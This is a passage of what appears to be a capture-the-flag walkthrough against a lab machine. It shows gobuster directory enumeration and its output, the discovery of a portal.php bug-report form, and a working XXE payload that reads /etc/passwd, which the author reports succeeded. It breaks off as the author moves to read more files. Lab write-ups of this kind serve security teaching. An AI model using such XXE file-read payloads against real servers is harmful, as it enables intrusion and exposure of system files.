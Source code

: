 it's look we just have ssh and HTTP open with different port , let's go and enumerate HTTP port.
## Web enumeration
Discovering directories and files with go buster.
```
gobuster dir -u http://10.129.98.250:80/ -w $BIG -t 50

```

Let's enumerate files and folders then:
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.98.250:80/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /home/batmanly/SecLists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/05/31 08:30:34 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/assets               (Status: 301) [Size: 315] [--> http://10.129.98.250/assets/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.98.250/css/]   
/js                   (Status: 301) [Size: 311] [--> http://10.129.98.250/js/]    
/resources            (Status: 301) [Size: 318] [--> http://10.129.98.250/resources/]

```

after investigation webpage we found web portal , that's still in the development let's go to there and look what we can find.

```
# portal 

http://10.129.98.250/portal.php
```

we found there is a log submit system , let's try to inject some data and see what we will get as a response.
![[track_system.png]]
we found there is a data in the post request , after look the with decoder it's look xml to base64 data let's try to xxe payload if it's work . 
![[decoder.png]]

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>asfsdaf</cwe>
		<cvss>sdafdsa</cvss>
		<reward>222</reward>
		</bugreport>
```
let's use this xxe payload and send it to server , see the response.
![[xxe_payload.png]]
after sending xxe payload to server we can read data from server , so let's move on and read more files.
